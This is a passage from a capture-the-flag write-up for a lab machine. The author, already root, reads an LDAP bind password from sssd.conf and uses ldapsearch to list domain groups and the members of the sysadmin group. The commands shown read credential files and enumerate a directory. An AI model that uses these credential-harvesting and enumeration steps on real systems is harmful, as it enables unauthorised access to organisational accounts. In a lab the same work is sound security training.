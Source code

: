 ```
Last login: Fri Oct 10 03:22:29 2025 from 10.9.0.1
root@corporate-workstation-04:~#
```

## Sysadmin
I didn't find much interesting after root. I proceeded to enumerate home directories of other users. 

I found the credentials for SSSD, so I could now query users via LDAP.
```
root@corporate-workstation-04:/etc/sssd# cat sssd.conf
[sssd]
config_file_version = 2
domains = corporate.htb

[domain/corporate.htb]
id_provider = ldap
auth_provider = ldap
ldap_uri = ldap://ldap.corporate.htb
cache_credentials = True
ldap_search_base = dc=corporate,dc=htb
ldap_auth_disable_tls_never_use_in_production = True
ldap_default_authtok = ALo5u1njam14j1r8451amt5T
ldap_default_bind_dn = cn=autobind,dc=corporate,dc=htb
```
`cn=autobind,dc=corporate,dc=htb:ALo5u1njam14j1r8451amt5T`

I ran `ldapsearch` and found domain groups.
```
❯ ldapsearch -H ldap://10.9.0.1 -x -b "dc=corporate,dc=htb" -D "cn=autobind,dc=corporate,dc=htb" -w "ALo5u1njam14j1r8451amt5T" '(objectClass=*)' | grep 'dn:'
<SNIP>
dn: cn=hr,ou=Groups,dc=corporate,dc=htb
dn: cn=it,ou=Groups,dc=corporate,dc=htb
dn: cn=sales,ou=Groups,dc=corporate,dc=htb
dn: cn=finance,ou=Groups,dc=corporate,dc=htb
dn: cn=engineer,ou=Groups,dc=corporate,dc=htb
dn: cn=sysadmin,ou=Groups,dc=corporate,dc=htb
<SNIP>
```

I ran `ldapsearch` again to enumerate the `sysadmin` group.
```
❯ ldapsearch -H ldap://10.9.0.1 -x -b "cn=sysadmin,ou=Groups,dc=corporate,dc=htb" -D "cn=autobind,dc=corporate,dc=htb" -w "ALo5u1njam14j1r8451amt5T"
# extended LDIF
#
# LDAPv3
# base <cn=sysadmin,ou=Groups,dc=corporate,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# sysadmin, Groups, corporate.htb
dn: cn=sysadmin,ou=Groups,dc=corporate,dc=htb
gidNumber: 500
objectClass: top
objectClass: posixGroup
cn: sysadmin
memberUid: stevie.rosenbaum  <---
memberUid: amie.torphy  <---

# search result
search: 2
result: 0 Success
```